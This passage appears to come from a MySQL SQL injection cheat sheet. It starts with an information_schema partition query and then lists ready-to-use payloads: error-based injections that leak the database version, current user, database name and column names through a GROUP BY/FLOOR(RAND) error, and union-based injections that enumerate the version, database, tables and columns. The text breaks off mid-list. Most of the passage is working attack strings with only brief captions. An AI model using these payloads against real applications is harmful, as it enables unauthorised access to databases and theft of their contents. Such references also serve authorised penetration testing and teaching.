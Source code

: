     ```sql
    SELECT table_name, partition_name, subpartition_name, partition_ordinal_position, 
           subpartition_ordinal_position, partition_method, subpartition_method, 
           partition_expression, subpartition_expression 
    FROM information_schema.partitions 
    WHERE table_schema = '<database_name>';
    ```

#### SQL Injection

**Error-Based SQLi**

*   **Version Information:** Causes an error that reveals the MySQL version.

    ```c
    ' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a,version(),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- -
    ```
*   **User Information:** Extracts the current database user.

    ```c
    ' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a,user(),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- -
    ```
*   **Database Name:** Reveals the name of the current database.

    ```c
    ' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a,database(),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- -
    ```
*   **Column Name Extraction:** Causes an error that exposes a column name from a specified table.

    ```c
    ' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a,(SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 0),0x3a,FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a) -- -
    ```

**Union-Based SQLi**

*   **Database Version:** Appends the MySQL version to the query results.

    ```c
    ' UNION SELECT NULL, version() -- -
    ```
*   **Database Name:** Retrieves the name of the current database.

    ```c
    ' UNION SELECT NULL, database() -- -
    ```
*   **Table Name Enumeration:** Extracts the name of a table from the current database.

    ```c
    ' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1 -- -
    ```
*   **Column Name Enumeration:** Retrieves the name of a column from the specified table.
